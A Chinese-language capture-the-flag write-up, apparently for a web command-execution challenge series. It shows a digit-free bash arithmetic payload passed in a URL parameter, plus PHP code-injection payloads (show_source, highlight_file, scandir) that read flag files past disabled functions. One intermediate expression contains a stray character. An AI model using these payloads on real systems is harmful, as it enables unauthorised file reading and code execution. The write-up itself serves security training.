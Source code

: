 - ┌──(amateur㉿kali)-[~]

- └─$ echo $((~$(())))

- ┌──(amateur㉿kali)-[~]

- └─$ echo $((~$(($((~$(())))+$((~$(())))))))


- ┌──(amateur㉿kali)-[~]

- └─$ echo $((~$(($((~$(())))+$((~$(())))+$((~$(())))))))


- 所以我们需要输入$((~$(())))36次，     然后通过在两端加上$((~$(( ))))等价于-1

来个python脚本。

![image.png](https://img03.mifile.cn/v1/MI_542ED8B1722DC/86626dc2c0a92491862d926b6b7b755c.png)
得到：

- $((~$(($((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$-(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))))))

最终的playload：

-  /?c=$((~$(($((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))))))

![image.png](https://img03.mifile.cn/v1/MI_542ED8B1722DC/50a82e72dba57b9c263cfa7e44754b8b.png)

## Web58--65:

![image.png](https://img08.mifile.cn/v1/MI_542ED8B1722DC/915cc864d422adffea9665d2384fa67c.png)

解题思路：post传参，禁用函数，通过高亮显示php文件。

![image.png](https://img07.mifile.cn/v1/MI_542ED8B1722DC/f05c8a6ae250fbb6ee40fc0d4de00305.png)

Playload:c=show\_source('flag.php'); c=highlight\_file("flag.php");

## Web66

![image.png](https://img06.mifile.cn/v1/MI_542ED8B1722DC/445c7cab3a045814d517a807c64afb16.png)

解题思路：需要通过post传参，但是我们会发现show\_source（）被禁用了，所以使用highlight\_file()查看文件，首先通过c=print\_r(scandir("/"));查看根目录下文件，然后通过c=highlight\_file("/falg.txt");便可以得到flag。

## Web67：
